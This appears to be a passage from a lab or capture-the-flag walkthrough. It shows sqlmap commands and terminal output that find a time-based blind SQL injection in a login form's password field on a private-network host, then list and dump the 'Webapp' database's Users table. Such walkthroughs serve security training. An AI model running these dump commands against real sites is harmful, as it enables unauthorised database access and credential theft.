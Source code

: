 ```jsx
[04:26:16] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
1
[04:26:21] [INFO] retrieved: 
[04:26:31] [INFO] adjusting time delay to 1 second due to good response times
Users
Database: Webapp
[1 table]
**+-------+
| Users |
+-------+**

[04:26:45] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.sqlmap/output/results-08252020_0426am.csv'
[04:26:45] [WARNING] you haven't updated sqlmap for more than 85 days!!!

[*] ending @ 04:26:45 /2020-08-25/

root@kali:~#
```

sqlmap --url http://192.168.122.146:1337/978345210/index.php --forms --dbs --level=5 --risk=3 -D Webapp -T Users --columns --dump --batch

```jsx
root@kali:~# sqlmap --url http://192.168.122.146:1337/978345210/index.php --forms --dbs --level=5 --risk=3 -D Webapp -T Users --columns --dump --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.6#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 04:23:40 /2020-08-25/

[04:23:40] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=gn3fe91hhb7...bs2h8s26e1'). Do you want to use those [Y/n] Y
[04:23:40] [INFO] searching for forms
[#1] form:
POST http://192.168.122.146:1337/978345210/index.php
POST data: username=&password=&submit=%20Login%20
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: username=&password=&submit=%20Login%20] (Warning: blank fields detected): username=&password=&submit= Login 
do you want to fill blank fields with random values? [Y/n] Y
it appears that provided value for POST parameter 'submit' has boundaries. Do you want to inject inside? (' Login* ') [y/N] N
[04:23:40] [INFO] resuming back-end DBMS 'mysql' 
[04:23:40] [INFO] using '/root/.sqlmap/output/results-08252020_0423am.csv' as the CSV results file in multiple targets mode
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```